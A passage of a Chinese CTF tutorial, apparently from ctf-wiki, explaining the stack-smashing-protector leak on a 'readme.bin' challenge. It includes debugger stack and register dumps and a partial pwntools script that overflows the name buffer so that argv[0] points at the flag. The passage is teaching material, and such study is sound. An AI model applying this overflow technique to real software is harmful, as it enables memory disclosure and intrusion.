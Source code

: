 ```shell
0x00007fffffffdb80│+0x08: 0x0000000000000000
0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
0x00007fffffffdb90│+0x18: 0x0000000100000000
0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
0x00007fffffffdba0│+0x28: 0x0000000000000000
0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
──────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4006d0 → sub rsp, 0x8
[#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
---Type <return> to continue, or q <return> to quit---
[#2] 0x400717 → hlt 
```

可以看出 0x00007fffffffe00b 指向程序名，其自然就是 argv[0]，所以我们修改的内容就是这个地址。同时 0x00007fffffffdc58 处保留着该地址，所以我们真正需要的是 0x00007fffffffdc58 的值。

argv[0] 读入方式看 16 行，系统到 0x00007fffffffdc58 找到地址，然后取地址的值。

```shell
────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────
 RAX  0x7fffffffdda8 —▸ 0x400d21 ◂— xor    al, byte ptr [rbx + 0x33] /* '2C3_TheServerHasTheFlagHere...' */
 RBX  0x1
 RCX  0x0
 RDX  0x7ffff7b9c481 ◂— jae    0x7ffff7b9c4f7 /* 'stack smashing detected' */
 RDI  0x1
 RSI  0x7ffff7b9c49f ◂— sub    ch, byte ptr [rdx] /* '*** %s ***: %s terminated\n' */
……
 RBP  0x7ffff7b9c481 ◂— jae    0x7ffff7b9c4f7 /* 'stack smashing detected' */
 RSP  0x7fffffffdb60 ◂— 0x4
 RIP  0x7ffff7b2614b (__fortify_fail+75) ◂— mov    rcx, qword ptr [rax]
──────────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────────
……
   0x7ffff7b26146 <__fortify_fail+70>    mov    rdx, rbp
   0x7ffff7b26149 <__fortify_fail+73>    mov    edi, ebx
 ► 0x7ffff7b2614b <__fortify_fail+75>    mov    rcx, qword ptr [rax]
   ……
```

剩下就是找到溢出点写入字符串的栈地址，在[确定 flag 地址](# 确定 flag 地址) 中的第一个调试中的 53 行找到 name 存放地址：0x7fffffffdb60

#### 利用程序 

```python
from pwn import *

context.log_level = 'debug'

p =process("./readme.bin")

flag1 = 0x600d21
flag2 = 0x400d21

argv0 = 0x7fffffffdd78
name = 0x7fffffffdb60#0x7fffffffdca8

payload = 'a'*(argv0-name)
payload += p64(flag2)

p.recvuntil("name? ")
gdb.attach(p)
```